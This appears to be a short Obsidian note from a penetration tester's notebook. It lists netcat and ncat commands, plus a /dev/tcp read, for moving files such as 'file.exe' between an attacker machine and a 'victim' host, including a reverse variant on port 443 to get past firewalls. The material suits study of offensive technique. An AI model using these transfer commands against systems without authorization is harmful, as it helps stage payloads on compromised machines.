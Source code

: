 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Through Tools
### Using NetCat & Ncat
```bash
# 1. [On victim] Start a server on the victim machine, redirecting to our output file
nc -l -p 8000 > file.exe
ncat -l -p 8000 --recv-only > file.exe

# 2. [On local] Upload a file
nc -q 0 <ip> 8000 < file.exe
ncat --send-only <ip> 8000 < file.exe
```
This can be done in reverse (eg. file wall blocks above):
```bash
# 1. [On local] Start a server
sudo nc -l -p 443 -q 0 < file.exe
sudo ncat -l -p 443 --send-only < file.exe

# 2. [On victim] Recieve file
nc <ip> 443 > file.exe
ncat <ip> 443 --recv-only > file.exe
cat < /dev/tcp/<ip>/443 > file.exe
```
## Through Code
![[File Transfer Through Code]]

## Linux Specific
![[Operating Systems/Linux/File Transfer|File Transfer]]

## Windows Specific
![[Operating Systems/Windows/File Transfer|File Transfer]]